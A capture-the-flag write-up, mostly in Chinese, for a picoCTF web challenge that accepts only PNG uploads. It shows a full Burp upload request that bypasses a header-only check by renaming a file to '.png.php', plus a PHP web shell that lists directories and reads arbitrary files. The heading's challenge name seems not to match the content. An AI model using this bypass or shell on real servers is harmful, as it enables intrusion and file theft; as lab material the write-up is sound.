 
# SansAlpha
[Challenge](https://play.picoctf.org/practice/challenge/445)

## Description

I found a web app that can help process images: PNG images only!

## Solution

目標機就是一個可以上傳圖片的網站，這題也算是蠻直觀的經典考題，因為題目只能上傳PNG，應該就是要考惡意程式上傳。

![Untitled](/img/2024_5.png)

先來看一下有沒有甚麼線索，連到`/robots.txt`看

![Untitled](/img/2024_6.png)

可以看到他有一個`/uploads/`跟一個文件，那個上傳資料夾應該就是上傳後的檔案位置，那文件裡面的內容則是寫到上傳檔案的判斷依據。

![Untitled](/img/2024_7.png)

根據`instructions.txt`的說法，看來它只透過標頭去做判斷，接下來就是嘗試上傳一個正常的PNG檔案並用Burp把請求攔截下來，然後將檔案名稱改成php，內容改成想要的shell，底下附上我最後送出的上傳請求以及shell的內容，這支shell可以將目錄走訪直接做在畫面上，很方便

```
POST / HTTP/1.1
Host: atlas.picoctf.net:60607
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: multipart/form-data; boundary=---------------------------419861389234077765582180596946
Content-Length: 693
Origin: http://atlas.picoctf.net:60607
Connection: close
Referer: http://atlas.picoctf.net:60607/
Upgrade-Insecure-Requests: 1

-----------------------------419861389234077765582180596946
Content-Disposition: form-data; name="file"; filename="test.png.php"
Content-Type: image/png

PNG
<?

if($_GET['file']) {
	$fichero=$_GET['file']; 
	} else {
	$fichero="/";
	} 

if($handle = @opendir($fichero)) {
  while($filename = readdir($handle)) {
    echo "( ) <a href=?file=" . $fichero . "/" . $filename . ">" . $filename . "</a><br>";
    }
  closedir($handle);
  } else {
  echo "FILE: " . $fichero . "<br><hr><pre>";
  $fp = fopen($fichero, "r");
  $buffer = fread($fp, filesize($fichero));
  echo $buffer;
  fclose($fp);
  }

?>
-----------------------------419861389234077765582180596946--
```
